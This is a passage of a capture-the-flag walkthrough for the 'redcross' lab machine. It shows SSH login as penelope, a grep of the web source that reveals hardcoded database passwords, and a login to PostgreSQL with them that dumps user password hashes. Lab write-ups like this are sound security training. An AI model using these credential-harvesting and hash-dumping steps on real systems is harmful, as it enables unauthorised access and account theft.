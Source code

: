 Once the exploit finishes we should see in our SimpleHTTPServer output that our public key was downloaded and we are now able to ssh in as the penelope user with our private key:
```
root@kali: ssh -i thoseguys penelope@redcross.htb
```

Now we are on the box as penelope and can read the `user.txt` flag.

Poking around the box, there is nothing new or interesting running, or listening and we cannot run sudo without knowing penelopes password, so we move on to the looking at the source code for the web application we find a lot of different credentials for the postgresql server.
```
penelope@redcross: grep -rnw '/var/www/html' -e 'password'
/var/www/html/admin/pages/login.php:7:echo "<tr><td align='right'>Password</td><td><input type='password' name='pass'></input></td></tr>";
/var/www/html/admin/pages/firewall.php:7:	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
/var/www/html/admin/pages/users.php:7:	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
/var/www/html/admin/pages/actions.php:32:	$sql=$mysqli->prepare("SELECT id, password, mail, role FROM users WHERE username = ?");
/var/www/html/admin/pages/actions.php:95:	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
/var/www/html/admin/pages/actions.php:109:	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
/var/www/html/admin/pages/actions.php:118:	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
/var/www/html/admin/pages/actions.php:127:	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
/var/www/html/intra/pages/login.php:7:echo "<tr><td align='right'>Password</td><td><input type='password' name='pass'></input></td></tr>";
/var/www/html/intra/pages/actions.php:27:	$sql=$mysqli->prepare("SELECT id, password, mail, role FROM users WHERE username = ?");
```

Trying to log into the postgresql server we finally get a credential set that works.
```
penelope@redcross: psql -h 127.0.0.1 -U unixusrmgr -W unix
Password for user unixusrmgr: dheu%7wjx8B&
unix-> \dt
            List of relations
 Schema |     Name     | Type  |  Owner   
--------+--------------+-------+----------
 public | group_table  | table | postgres
 public | passwd_table | table | postgres
 public | shadow_table | table | postgres
 public | usergroups   | table | postgres
(4 rows)
```

Use `\z` to view our users current permissions.

The only table we seem to be able to access is the `passwd_table`:
```
unix=> select * from passwd_table;
username | passwd | uid | gid | gecos | homedir | shell
-----------+------------------------------------+------+------+-------+----------------+-----------
tricia | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 | | /var/jail/home | /bin/bash
thoseguys | $1$yWuH2ffu$W9XZ85gyIq9rcw/e5hwal0 | 2021 | 1001 | | /var/jail/home | /bin/bash
(2 rows)
```
